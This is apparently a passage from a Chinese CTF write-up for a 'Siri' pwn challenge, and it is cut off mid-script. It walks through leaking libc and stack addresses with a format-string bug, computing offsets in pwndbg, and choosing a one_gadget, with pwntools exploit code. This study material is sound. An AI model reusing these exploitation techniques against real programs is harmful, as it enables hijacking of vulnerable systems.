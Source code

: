调用完`leak`后，为了跳出循环，需要将`144C`处的指令地址修改为`14C1`来进行强制返回，这需要获取程序的基址——很简单，用`main` 中的返回地址对着指令手算偏移就行了：

```assembly
# stack 

rbp   0x7fff87e70be0 <- 0x7fff87e70d00 
      0x7fff87e70be8 <- 0x55596efe744c -> test   eax, eax               <- target
.
.
.
      0x7fff87e70d08 <- 0x7f69f6c6db97 (__libc_start_main+231) <- current


pwndbg> distance 0x7fff87e70d08 0x7fff87e70be8
0x7fff87e70d08->0x7fff87e70be8 is -0x120 bytes
```

定位指令地址后，直接写最低一个字节为`C1`即可实现强制跳转，完整`POC`如下：

```python
#coding:utf-8
from pwn import*

p = process('./Siri')
elf = ELF('./Siri')
libc = ELF('./libc.so.6')


def lauch_gdb(p):
    context.log_level = 'debug'
    context.terminal = ['tmux', 'splitw', '-h']
    gdb.attach(p)


def add(payload):
    sla(">>>","Hey Siri!")
    ru("What Can I do for you?")
    sl("Remind me to "+payload)

lauch_gdb(p)
rl = lambda a=False              : p.recvline(a)    
ru = lambda a,b=True             : p.recvuntil(a,b)
rn = lambda x                    : p.recvn(x)
sd = lambda x                    : p.send(x)
sl = lambda x                    : p.sendline(x)
sa = lambda a,b                  : p.sendafter(a,b)
sla = lambda a,b                 : p.sendlineafter(a,b)
irt = lambda                     : p.interactive()
uu32 = lambda data               : u32(data.ljust(4,'\x00'))
uu64 = lambda data               : u64(data.ljust(8,'\x00'))
cth = lambda content,length      : int(content[:length],16)

add("libc : %83$pAAAA%46$p")
ru("libc : 0x")
libc_base = int(p.recv(12),16)-231-libc.sym['__libc_start_main']
print "libc_base = "+hex(libc_base)
og = [0x4f365,0x4f3c2,0x10a45c]
gadget = libc_base + og[1]
print "gadget:"+hex(gadget)
ru('AAAA')
ret = int(p.recv(14),16)+0x8
print 'ret:'+hex(ret)
payload = ''
written_size = 0
offset = 64
```
